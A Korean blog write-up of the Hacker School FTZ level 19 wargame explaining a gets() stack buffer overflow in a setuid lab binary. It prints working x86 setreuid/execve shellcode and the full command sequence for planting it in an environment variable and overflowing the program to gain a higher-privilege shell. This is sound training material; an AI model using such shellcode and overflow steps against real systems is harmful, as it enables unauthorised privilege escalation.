 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 19"
description: "Do you know the ?"
comments: true
categories: FTZ
---
```


<img data-action="zoom" src='{{ "assets/ftz/level19/1.jpg" | relative_url }}' alt='relative'>  

## 1) level19/swimming in pink 입력해 로그인  

``` c 
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

<img data-action="zoom" src='{{ "assets/ftz/level19/2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level19/3.png" | relative_url }}' alt='relative'>  

코드를 통해 gets 함수를 사용해 입력 길이에 제한을 두지 않았다는 것을 확인하였고,  
gdb로 분석해보니 buf 배열은 ebp에서 40 byte 떨어진 주소에 위치하고 bof를 방지하는 보안 대책이 없다는 것을 확인했습니다.  

RET에 쉘코드가 저장된 위치의 주소를 입력해 bof를 일으키면 쉘은 실행됩니다.  
문제는 level19 권한의 쉘이 실행된다는 것입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/4.png" | relative_url }}' alt='relative'>  

앞서 문제에서는 프로그램 코드 내에 setreuid 함수가 호출됐었습니다.  
그러나 이번 문제에서는 setreuid 함수가 호출되지 않았습니다.  
따라서 이번 문제를 풀기 위해선 쉘코드에 setreuid 함수를 호출하는 기계어 코드를 넣어줘야 합니다.    

## 2) 쉘코드에 setreuid 함수 호출하는 기계어 추가하기  

모든 프로세스별로  
Real User ID(RUID),  
Effective User ID(EUID),  
Saved User ID(SUID)가 있습니다.  

-> RUID는 시스템에 접속한 사용자의 ID입니다. 프로세스를 시작하는 사용자를 결정하는 데 사용됩니다.    

-> EUID는 프로세스에 대한 권한을 결정합니다. 프로그램에 SetUID가 설정되어 있다면 프로세스의 권한은 일시적으로 user의 ID를 갖습니다.  

-> SUID는 이전 EUID 값을 저장하는 데 사용됩니다. SUID로 이전 EUID를 복원할 수 있습니다.  


SetUID가 설정된 attackme 파일을 실행하기 전에는 RUID=level19, EUID=level19 입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/5.png" | relative_url }}' alt='relative'>  

attackme 프로그램이 실행하면 EUID(level19)를 SUID에 복사한 뒤,  
EUID는 level20 user의 ID를 일시적으로 갖습니다.  

attackme 프로세스가 종료하면 SUID에 저장되어 있던 값을 EUID에 복사하여 기존 권한으로 전환합니다.  


프로그램 내에서 setreuid를 호출하지 않기 때문에  
main 함수가 종료되면서 EUID는 level19 권한으로 전환되고,  
쉘코드가 저장되어 있는 위치에 가서 쉘코드를 실행시키더라도  
쉘코드에서는 execve 함수만 호출하기 때문에 RUID, EUID(level19) 권한으로 쉘이 실행됩니다.  

따라서 쉘코드에 setreuid 함수를 호출하는 기계어를 추가해야 합니다.  

<a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html#setreuid">setreuid 함수 호출이 포함된 쉘코드 작성 방법</a>  


위 문서를 참고하여 setreuid 함수 호출 코드가 포함된 39 byte의 쉘코드를 만들 수 있었습니다.    

``` bash
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

## 3) attackme에 bof 일으켜 level20 권한의 shell 획득하기  

1) EGG 환경변수에 쉘코드 저장  

``` bash
export EGG=`python -c 'print "\x90"*30+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*30'`
```

2) EGG 환경변수 주소 확인하기 (1)  

``` bash
echo 'int main() { printf("ADDR -> %p\n", getenv("EGG")); }' > getenv.c
```

3) EGG 환경변수 주소 확인하기 (2)  

``` bash
gcc -o getenv getenv.c
```

4) EGG 환경변수 주소 확인하기 (3)  

``` bash
./getenv
```

5) attackme bof 공격하기

``` bash
(python -c 'print "\x90"*44+"[쉘코드가 저장된 주소]"'; cat) | ./attackme
```


<img data-action="zoom" src='{{ "assets/ftz/level19/6.png" | relative_url }}' alt='relative'>  


